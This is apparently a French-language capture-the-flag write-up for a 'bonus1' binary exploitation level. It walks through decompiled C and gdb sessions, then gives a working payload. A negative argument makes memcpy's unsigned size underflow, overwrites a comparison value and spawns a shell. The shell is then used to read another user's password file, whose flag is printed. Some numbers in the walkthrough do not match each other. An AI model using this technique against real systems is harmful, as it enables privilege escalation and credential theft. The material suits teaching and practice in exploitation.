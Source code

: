 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```C
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque que c'est `non signé`.

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. 
Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
	0x08048470 <+76>:	mov    %eax,(%esp)
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
[...]
```
On voit un call a `memcpy`. On va donc `break` juste après, sur la comparaison et lancer le programme avec différentes valeurs.
```
> (gdb) break *0x08048478
[...]
> (gdb) r 8 A
[...]
> (gdb) x/16wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
> (gdb) x $esp
0xbffff6b0:	0xbffff6c4
> (gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument saisis après la multiplication par 4.
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer` : `0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec` : `0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).

Nous voulons maintenant savoir quelle valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre `adresse de début de buffer`.
Nous allons donc faire :
```
[adresse de cmp] - [adresse de début de buffer]
0xbffff6ec - 0xbffff6c4 = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
> (gdb) x/16wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas écrasée. On doit donc ajouter 4 octets pour avoir écraser l'adresse de comparaison. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va falloir écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `int min` +  44.
```
-2147483647 + 44 = -2147483603
```

```
> (gdb) break *0x08048473
[...]
> (gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
> (gdb) continue
[...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
